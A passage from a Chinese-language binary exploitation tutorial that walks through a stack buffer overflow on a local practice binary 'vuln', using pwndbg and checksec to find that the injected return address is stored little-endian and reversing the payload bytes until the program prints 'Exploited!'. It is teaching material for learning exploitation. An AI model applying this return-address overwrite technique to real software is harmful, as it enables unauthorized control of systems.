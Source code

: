 现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ bt
#0  0x080491aa in unsafe ()
#1  0xc3910408 in ?? ()
[...]
```

`0xc3910408` ，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，
而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）
存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，
这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道
字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg`
中使用这条指令：

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!` ：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```
